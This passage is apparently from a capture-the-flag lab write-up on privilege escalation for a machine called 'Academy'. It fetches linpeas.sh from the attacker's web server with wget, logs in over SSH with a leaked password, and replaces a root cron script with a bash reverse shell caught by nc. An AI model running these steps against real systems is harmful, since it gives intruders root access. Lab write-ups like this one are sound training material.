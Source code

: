 # Privilege escalation
We are now going to upload `linpeas.sh` to check if it can help us to find a way to escalate privileges.</br>
First start a python webserver on port 80.
```
python3 -m http.server 80
```
On www-data user in your machine, navigate to `tmp` directory and type
```
wget http://IP_of_your_machine:80/linpeas.sh
```
The script is now on the remote machine change its permission and execute it.

<img alt="" class="bg hc hd c" width="1000" height="450" loading="lazy" role="presentation" src="https://i.ibb.co/rQWqcWf/Academy-8.png"></img>

The output is as follows:

<img alt="" class="bg hc hd c" width="500" height="40" loading="lazy" role="presentation" src="https://miro.medium.com/v2/resize:fit:640/format:webp/0*1O5igU4EkNrx9N_0.png"></img>

It means that the `backup.sh` script is running every minute as root !<br/>
It also gives a password for grimmie user.</br>
We now switch to grimmie user using SSH protocol with the command:
```
ssh grimmie@<ip>
```
<img alt="" class="bg hc hd c" width="1000" height="450" loading="lazy" role="presentation" src="https://i.ibb.co/CBDh92z/Academy-9.png"></img>

Replace the contents of `backup.sh` script content to execute a bash tcp reverse shell by the command:
```
bash -i >& /dev/tcp/IP_of_your_machine/8080 0>&1
```
And on your machine type:
```
nc -lvnp 8080
```
The result is as follows:-

<img alt="" class="bg hc hd c" width="1000" height="450" loading="lazy" role="presentation" src="https://i.ibb.co/j5vyjWW/Academy-11.png"></img>


